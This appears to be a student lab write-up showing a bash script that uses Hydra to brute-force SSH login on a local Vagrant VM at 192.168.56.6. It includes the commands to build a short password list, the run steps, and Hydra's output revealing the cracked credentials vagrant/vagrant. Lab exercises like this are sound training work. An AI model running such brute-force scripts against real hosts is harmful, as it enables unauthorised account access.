


# Task 1.2 – SSH Brute-force Using Custom Script (Hydra)

## Script File: ssh_bruteforce.sh
This script uses **Hydra** to perform an SSH brute-force attack on IP `192.168.56.6`  with the username `vagrant`, trying passwords from `passwords.txt`.  It runs 4 attempts in parallel and stops when a correct password is found.
```bash
#!/bin/bash
# Configuration
TARGET_IP="192.168.56.6"
USERNAME="vagrant"
PASSWORD_LIST="passwords.txt"

# Run Hydra
echo "[*] Starting SSH brute-force attack on $TARGET_IP..."
hydra -l "$USERNAME" -P "$PASSWORD_LIST" ssh://"$TARGET_IP" -t 4 -f -V
```


## Execution Steps
First, the command `chmod +x ssh_bruteforce.sh` made the script executable. Then, `echo -e "Shahad\nNorah\n..." > passwords.txt` created a password list, saving each name on a new line. Finally, `./ssh_bruteforce.sh` executed the script to start the brute-force attack.
```bash
chmod +x ssh_bruteforce.sh
echo -e "Shahad\nNorah\nNora\nvagrant\nJude\nJouri\nAbood\nHamood\nNoor\nRawan\nAli\nOoody" > passwords.txt 
./ssh_bruteforce.sh
```


### Result:
Hydra successfully identified:
```
[22][ssh] host: 192.168.56.6   login: vagrant   password: vagrant
```
